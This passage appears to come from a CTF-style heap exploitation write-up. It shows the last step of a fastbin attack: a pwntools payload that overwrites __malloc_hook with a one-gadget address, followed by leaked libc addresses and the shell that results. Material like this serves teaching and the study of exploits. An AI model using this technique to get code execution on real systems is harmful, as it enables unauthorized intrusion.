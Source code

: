 Our fastbin list is looking cute. Now once we allocate one more chunk, we'll get back `0x7ffff7dd371d`, which is an address relatively close to __malloc_hook's address and we can overwrite it with the one gadget's address.

```python
    payload  = ''
    payload  = payload.ljust(0x13, 'A')
    payload += p64(one_shot)

    alloc(0x68, payload)
```

```
0x7ffff7dd3740 <__malloc_hook>:	0x00007ffff7b016c4
```

Voila!

```
[*] Leak:          0x7ffff7dd37b8
[*] Libc:          0x7ffff7a12000
[*] __malloc_hook: 0x7ffff7dd3740
[*] Switching to interactive mode
$ whoami
vagrant
```




